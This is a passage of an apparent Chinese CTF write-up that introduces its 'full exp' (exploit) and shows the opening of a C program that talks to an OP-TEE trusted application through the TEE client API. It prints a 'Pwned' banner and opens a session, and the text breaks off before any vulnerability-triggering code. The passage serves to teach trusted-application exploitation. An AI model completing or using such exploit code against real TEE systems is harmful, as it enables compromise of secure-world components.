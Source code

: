 完整 exp 如下(exp 的编写参考了 cts 的 wp)：

```C
/*
 * Copyright (c) 2016, Linaro Limited
 * All rights reserved.
 *
 * Redistribution and use in source and binary forms, with or without
 * modification, are permitted provided that the following conditions are met:
 *
 * 1. Redistributions of source code must retain the above copyright notice,
 * this list of conditions and the following disclaimer.
 *
 * 2. Redistributions in binary form must reproduce the above copyright notice,
 * this list of conditions and the following disclaimer in the documentation
 * and/or other materials provided with the distribution.
 *
 * THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS"
 * AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE
 * IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE
 * ARE DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT HOLDER OR CONTRIBUTORS BE
 * LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR
 * CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF
 * SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS
 * INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN
 * CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE)
 * ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE
 * POSSIBILITY OF SUCH DAMAGE.
 */

#include <err.h>
#include <stdio.h>
#include <string.h>

/* OP-TEE TEE client API (built by optee_client) */
#include <tee_client_api.h>

/* For the UUID (found in the TA's h-file(s)) */
#include <hello_world_ta.h>

#define TA_EXP_UUID { 0xb6c53aba, 0x9669, 0x4668, \
		{ 0xa7, 0xf2, 0x20, 0x56, 0x29, 0xd0, 0x0f, 0x86} }

#define TA_BUG_CMD_ID 0

int main(void)
{
	TEEC_Result res;
	TEEC_Context ctx;
	TEEC_Session sess;
	TEEC_Operation op;
	TEEC_UUID uuid = TA_EXP_UUID;
	uint32_t err_origin;

	/* Resery Patched */
	puts("[*] Pwned by Resery");

	res = TEEC_InitializeContext(NULL, &ctx);
	if (res != TEEC_SUCCESS)
		errx(1, "TEEC_InitializeContext failed with code 0x%x", res);

	res = TEEC_OpenSession(&ctx, &sess, &uuid,
			       TEEC_LOGIN_PUBLIC, NULL, NULL, &err_origin);
	if (res != TEEC_SUCCESS)
```